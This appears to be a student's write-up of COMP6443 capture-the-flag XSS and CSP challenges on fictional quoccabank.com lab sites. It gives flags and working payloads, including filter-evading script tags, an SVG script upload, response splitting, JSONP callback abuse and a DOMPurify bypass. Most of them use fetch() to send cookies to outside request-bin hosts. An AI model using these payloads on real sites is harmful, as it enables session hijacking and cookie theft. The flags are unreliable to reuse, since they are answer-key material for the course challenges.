

# Topic 4 Challenges

- [x] report.quoccabank.com (1)
- [x] csp.quoccabank.com (4)
- [x] profile.quoccabank.com (1)
- [x] science-today.quoccabank.com (2)
- [x] sturec.quoccabank.com (2)
- [x] support-v2.quoccabank.com

- https://owasp.org/www-community/xss-filter-evasion-cheatsheet

### science-today.quoccabank.com

- COMP6443{REF_XSS_SO_SIMPLE_STORED.ejUzMTI3OTk=.TaLUiyWLlJoiQPIE8pZqLg==}
  - We can inject an XSS payload through the comments. However, there appears to be a WAF in place to detect script tags. However, capitalising the tags bypass the filter. Payload is shown below. Note, escape the HTML tags where the script payload is going to be inserted.
  
    - We are using request bin to view any incoming request made to the URL.
  
    ```html
    </div><SCRIPT>fetch(`https://enxwgp951veoi.x.pipedream.net?cookie=${document.cookie}`)</SCRIPT><div>
    ```
  
  - This should inject the page with the XSS payload. Once injected, report the page that contains the payload -> Send POST request with XSS already stored from `/report` route.
  
  - It appears that when reporting a webpage, it has the legitimate cookies used and appears to load the page in the backend somewhere. This appears to be the case as once the page with the XSS payload is reported, then a request is sent to request bin containing the real cookies.
  
- COMP6443{REF_XSS_SO_SIMPLE.ejUzMTI3OTk=.HSMzYds8NxbX19OkMSr8Sg==}

  - When searching for a query, it embeds the search term in the HTML page. It seems like there is a word filter for tag names. Use the following payload to escape and embed an XSS payload. Search using this payload below in the search field.

    ```html
    </h3><SCR<SCRIPT>IPT>fetch(`https://enxwgp951veoi.x.pipedream.net?cookie=${document.cookie}`)</SC</SCRIPT>RIPT><h3>
    ```

  - Then report page to execute payload on the backend to execute that payload in the backend that contains the real cookies. Check request bin for flag in the URL param cookies.

### profile.quoccabank.com

- COMP6443{SVG_XSS_SO_MEDIUM.ejUzMTI3OTk=.ROnCk7ZTyclkbx+HPQ9V2g==}

  - Seems like we can upload a SVG file - include the XSS payload within it

    ```html
    <?xml version="1.0" standalone="no"?>
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
    
    <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
       <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
       <script type="text/javascript">
          fetch(`https://enxwgp951veoi.x.pipedream.net?cookie=?cookie=${document.cookie}`)
       </script>
    </svg>
    ```

  - There appears to be a report button which given a path, reports that page. Similarly to `science-today.quoccabank.com`, we can report a page that contains our XSS payload which gives us a flag in request bin. It also appears that we can directly access the image we uploaded (that contains the XSS) payload by finding the path through inspect element

    - Using Burp, modify the POST request of `/report` such that the `path` parameter is the image PATH instead.
    - Check request bin to find the flag.

### report.quoccabank.com

- Recon
  - The robots.txt reveals `/view` route. When accessing it, it appears that it requires a report id
  - Cookies are HTTPOnly - meaning that we cannot send over cookies using a fetch request
  - Everytime a report is submitted, a cookie is generated during that session (must not have an existing cookie). The cookie is a JWT token base64 encoded. When decoded, it appears to have an IDOR to the report id
  - From here, if we have the report id, presumably we can access it in the view route found in robots.txt i.e. `/view/<report_id>` to load our report
  - When inspecting the report page, it appears to sanitize any XSS injection in the JavaScript. The method that it does is found in the source code.
  
- COMP6443{WHY_ARE_YOU_REPORTING_ME.ejUzMTI3OTk=.ze6K45qLXI7RCd0vnvSaUw==}

  - [XSS via HTTP Response Splitting ](https://www.youtube.com/watch?v=esG3KK4jJTo)exploit (carriage newline attack)

  - Inspecting the headers when the `/view/<report_id>` page is loaded, it appears to have a header `x-meta` that uses the title of the report as its value.

  - We can use response splitting exploit to move the cookie in the header to the HTML body/page. From there, we can send a request with the HTML text (which contains the pushed cookie headers). We use a script tag before since it triggers a race condition (since it deletes that tag in the array, the second tag is not deleted)

  - Use the payload below when submitting a POST request to `/report`

    ```html
    name=aaa\r\n\r\n&content=<script></script><svg onload=fetch(`https://en3tk558zj4d1.x.pipedream.net/?cookie=${document.documentElement.innerText}`)>test</svg>
    ```

### csp.quoccabank.com

- COMP6443{CSP_CHA_1_LEV1.ejUzMTI3OTk=.OIRdkbFm4Ta6OWpYlticnQ==}

  - Change `script-src` header to allow scripts to load. Console log to reveal information

    ```
    Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self' ssl.google-analytics.com". Either the 'unsafe-inline' keyword, a hash ('sha256-R+A6ELN3JPMHUe0uf6qIRigpfMFEvnoKN/xNPiAbOdc='), or a nonce ('nonce-...') is required to enable inline execution.
    ```

    ```
    script-src 'sha256-R+A6ELN3JPMHUe0uf6qIRigpfMFEvnoKN/xNPiAbOdc=';
    ```

- COMP6443{CSP_CHA_2_PIC.ejUzMTI3OTk=.gLe5rewV9zLQ7wcfaFSnPA==}

  - Change `script-src` to allow script to load with the specified nonce (found in the source page since it does not view in inspect element)

    ```
    script-src 'nonce-2726c7f26c';
    ```
    
  
- COMP6443{CSP_CHA_3_LEV2.ejUzMTI3OTk=.+HI0POS805nr8dnaOd2SCg==}

  - It appears that `https://unsplash.it/200/200` loads an image from `https://picsum.photos/200/200` which loads a random image from `https://i.picsum.photos/*`. Set the CSP header such that it allows content from those domains to be loaded.

  ```
  img-src https://unsplash.it/200/200 https://picsum.photos/200/200 https://i.picsum.photos/*;
  ```

- COMP6443{CSP_CHA_4_ALT.ejUzMTI3OTk=.pQIHrxbsa/eOWRMlnP/3Wg==}

  - It appears that the quote loader calls a script file called `quote-loader.js` which fetches the quote from `https://scrapp.quoccabank.com/static/js/get-quote.js`.
  - Use `script-dynamic` to load the quote. `script-dynamic` specifies that the trust explicitly given to a script present in the markup, by accompanying it with a nonce or a hash, shall be **propagated to all the scripts loaded by that root script**.
  
  ```
  script-src 'strict-dynamic' 'nonce-onyDVMyUbCMVPCJc7AaTdA==';
  ```

### sturec.quoccabank.com

- Recon

  - Inspecting the network request, the CSP header sets `script-src` to self meaning that it can only executes scripts from its site.
  - Every time when requesting a search, it sends a JSONP request on `/students.jsonp?q=<query>&callback=render`. Inspecting the source code, the page loads `helper.js` which contains a render function that JSONP executes when called.
    - seems like the endpoint blacklists certain characters such as `.` or `+`
  - `helper.js` creates the table in the clientside. Uses `createElement` HTML elements so it is not XSS vulnerable.

- COMP6443{STORED_XSS_SO_MEDIUM.ejUzMTI3OTk=.DWbzD8bfRYyxS80VrYc0eA==}

  - When creating a student, it appears that there exist a `dcreat` field which is XSS vulnerable. We can modify the `dcreate` field through the Burp request. 

  - However, there is a WAF that strips out certain characters in the field before the data is stored. The regex used is `<(?:\w+)\W+?[\w]`

  - We can use the payload below as the `dcreat` field.

    - Insert JS before the callback function so that it executes in the browser.
    - `atob` decodes a base64 string. This is a way to bypass the blacklist characters found in JSONP endpoint.

    ```html
    <<script<sscript src=/students.jsonp?q=user&callback=fetch(atob("aHR0cHM6Ly9lbjVoMzl5NDRheHgueC5waXBlZHJlYW0ubmV0Lz9jb29raWU9")%2bdocument['cookie'])></script>
    ```

  - Once the payload is sent, it is inserted in the DOM when the home page is loaded. (shown in source code). Report the page and the cookie should be sent as part of the fetch request.

- COMP6443{JSONP_XSS_SO_MEDIUM.ejUzMTI3OTk=.eoJnVsKegNvk4zxU+2f8Fw==}

  - Search query is XSS vulnerable.

  - Use JSONP to send over cookies once the page is reported.

    ```html
    <script src=/students.jsonp?callback=fetch(atob("aHR0cHM6Ly9lbjVoMzl5NDRheHgueC5waXBlZHJlYW0ubmV0Lz9jb29raWU9")%2bdocument['cookie']);render></script>
    ```


### support-v2.quoccabank.com

- COMP6443{WOW_I_AM_IMPRESSED.ejUzMTI3OTk=.jtYXmoi1ZJyDKyCwRgrOFw==}

  - When creating a ticket, it uses the `title` and `content` field to populate the result. It appears that the `title` is injected directly, meaning that we can inject a XSS payload. However, the `content` field is DOMPurify before it is appended on the front end (check source code).

  - Checking the source code, we note that it appends the `content` into the DOM whether or not it has been sanitized by DOMPurify i.e. `$("#tk").attr("srcdoc", content);`. As such, if we can cause an error to DOMPurify, we can potentially append the payload.

    - Remediation: This statement should have been inside of the `try` block.

  - To cause an error within the `try` block, a potential error would be not disabling importing DOMPurify which will cause the line of code in the `try` block `content = DOMPurify.sanitize(content, {SAFE_FOR_JQUERY: true}).toString();` to cause an error (since the function `DOMPurify` does not exist).

  - To disable importing `DOMPurify`, note that we can still inject XSS in the `title` field. The payload below means that we enclose the h2 flag and opening a script tag after. This makes it such that all text after the script tag is ignored (included within it is the DOMPurify import)

    ```
    </h2><script>
    ```

    

  - Note that the content is appended in a HTML element with id `tk`. We can simply inject a HTML element in the `title` field containing the `id` and append the unsanitized payload in the `content` field there. Note, use an iframe tag since the XSS `content` payload is appended in the `srcdoc` attribute/

    ```
    title=<iframe id="tk"></iframe><script>
    content=test<form id="rp"><input name="ownerDocument"/><script>fetch("https://enxju6dmctwrg.x.pipedream.net/"+document.cookie);</script></form>
    ```

